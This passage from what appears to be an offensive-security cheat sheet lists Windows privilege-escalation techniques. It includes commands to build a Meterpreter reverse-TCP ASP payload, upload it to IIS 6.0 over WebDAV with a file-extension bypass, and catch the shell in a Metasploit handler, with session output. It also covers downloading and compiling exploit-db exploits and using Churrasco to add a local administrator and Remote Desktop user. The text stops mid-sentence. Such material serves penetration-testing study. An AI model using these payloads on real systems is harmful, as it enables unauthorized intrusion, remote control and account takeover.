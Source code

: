 -   Metasploit Meterpreter Privilege Escalation Guide
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

-   Windows Server 2003 and IIS 6.0 WEBDAV Exploiting
http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html

         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

         cadavar http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to `/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt
         Copying `/aspshell3.txt' to `/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit

         msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j

         curl http://$ip/aspshell3.asp;.txt

         [*] Started reverse TCP handler on 1.2.3.4:443
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700

-   Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.

         pip install pyinstaller
         wget -O exploit.py http://www.exploit-db.com/download/31853
         python pyinstaller.py --onefile exploit.py

-   Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:

      https://www.exploit-db.com/exploits/6705/

      https://github.com/Re4son/Churrasco

         c:\Inetpub>churrasco
         churrasco
         /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

         c:\Inetpub>churrasco -d "net user /add <username> <password>"
         c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
         c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

-   Windows MS11-080 - http://www.exploit-db.com/exploits/18176/

          python pyinstaller.py --onefile ms11-080.py
          mx11-080.exe -O XP

-   Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt.  Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:
